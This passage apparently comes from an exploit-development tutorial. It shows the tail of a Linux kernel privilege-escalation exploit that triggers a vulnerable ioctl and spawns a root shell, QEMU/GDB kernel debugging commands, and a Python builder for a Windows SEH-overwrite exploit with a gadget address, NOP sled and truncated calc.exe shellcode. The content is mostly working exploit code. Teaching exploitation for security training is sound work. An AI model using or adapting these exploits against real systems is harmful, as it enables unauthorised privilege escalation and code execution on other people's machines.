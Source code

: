 ```c

    // Trigger vuln
    ioctl(fd, VULN_IOCTL, buf);

    printf("[*] Privilege escalation complete!\n");
    system("/bin/sh");

    return 0;
}
```

### Kernel Debugging

```bash
# Start QEMU with debugging
qemu-system-x86_64 \
    -kernel bzImage \
    -initrd initramfs.cpio.gz \
    -append "console=ttyS0 nokaslr" \
    -s -S

# In another terminal, attach GDB
gdb vmlinux
(gdb) target remote :1234
(gdb) break vulnerable_function
(gdb) continue
```

---

## 5. Windows Exploitation

### SEH Overwrite

```python
#!/usr/bin/env python3
from struct import pack

# POP POP RET gadget address (bypasses SafeSEH)
ppr = 0x10023456

# Shellcode (calc.exe)
shellcode = (
    b"\x31\xc0\x50\x68\x63\x61\x6c\x63\x54\x59\x50"
    b"\x51\x64\x8b\x72\x2f\xad\x33\xc9\x66\x81\xe9"
    # ... (truncated for brevity)
)

# Build exploit buffer
nseh = pack('<L', 0x909006eb)  # JMP +6
seh = pack('<L', ppr)

exploit = b"A" * 500
exploit += nseh
exploit += seh
exploit += b"\x90" * 16  # NOP sled
exploit += shellcode

with open('exploit.txt', 'wb') as f:
    f.write(exploit)
```
